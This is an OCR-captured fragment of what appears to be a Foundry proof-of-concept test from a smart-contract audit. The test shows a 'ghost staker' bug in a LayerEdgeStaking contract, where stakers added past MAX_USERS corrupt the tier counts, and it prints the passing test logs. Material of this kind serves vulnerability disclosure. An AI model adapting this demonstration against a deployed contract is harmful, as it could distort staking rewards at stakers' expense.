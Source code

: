 ```solidity

        // 7. Add more ghost users
        console2.log("\n--- Adding more ghost users ---");

        // Add 3 more ghost users
        for (uint i = 0; i < 3; i++) {
            address newGhostUser = makeAddr(string(abi.encodePacked("ghostUser", i+1)));
            dealToken(newGhostUser, INITIAL_BALANCE);
            vm.prank(newGhostUser);
            staking.stake(MIN_STAKE);
        }
        console2.log("Added 3 more ghost users");

        // 8. Check final state
        console2.log("\n--- Final state ---");
        console2.log("Final staker count:", staking.stakerCountInTree());

        // Get final tier counts
        (tier1Count, tier2Count, tier3Count) = staking.getTierCounts();
        console2.log("Final tier 1 count:", tier1Count);
        console2.log("Final tier 2 count:", tier2Count);
        console2.log("Final tier 3 count:", tier3Count);

        // 9. Demonstrate the impact on tier assignment
        console2.log("\n--- Impact on tier assignment ---");

        // Check normal user's tier
        (,LayerEdgeStaking.Tier normalTier,,) = staking.getUserInfo(normalUser);
        console2.log("Normal user's tier:", uint256(normalTier));

        // The normal user's tier might be incorrect due to the ghost users
        // corrupting the tier boundaries
    }
}
```

**Logs**
```bash
Ran 1 test for test/stake/poc.t.sol:GhostStakerBugPOC
[PASS] test_GhostStaker_Bug() (gas: 2569801)
Logs:

--- Initial state ---
  Initial staker count: 1

--- Setting nextJoinId beyond MAX_USERS ---
  Simulated nextJoinId: 100000001
  MAX_USERS: 100000000

--- Ghost user staking ---
  New staker count: 2
  Staker count increase: 1

--- Checking ghost user's tier and state ---
  Ghost user's tier: 2
  Ghost user joinId: 2
  Ghost user is active: true
  Ghost user is out of tree: false

--- Demonstrating tier boundary corruption ---
  Tier 1 count: 1
  Tier 2 count: 1
  Tier 3 count: 0
  Sum of tier counts: 2
```